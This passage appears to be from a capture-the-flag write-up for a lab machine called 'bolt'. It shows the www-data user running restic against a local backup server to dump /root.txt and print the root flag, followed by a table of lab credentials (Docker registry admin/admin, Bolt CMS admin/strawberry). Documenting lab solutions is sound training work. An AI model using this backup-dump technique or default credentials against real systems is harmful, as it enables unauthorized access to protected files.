 
## Getting the root Flag
```python
www-data@bolt:~/html/bolt$ restic -r rest:http://127.0.0.1:8000 dump e7e869b4 /root.txt
enter password for repository: 
password is correct
unable to open cache: Stat: stat /var/www/.cache/restic: permission denied
ntrkzgnkotaxyju0ntrinda4yzbkztgw
```
![[Pasted image 20210718212724.png]]
# Credentials
|Location|Username|Password|
|--|--|--|
|Docker Registry|admin|admin|
|Bolt CMS|admin|strawberry|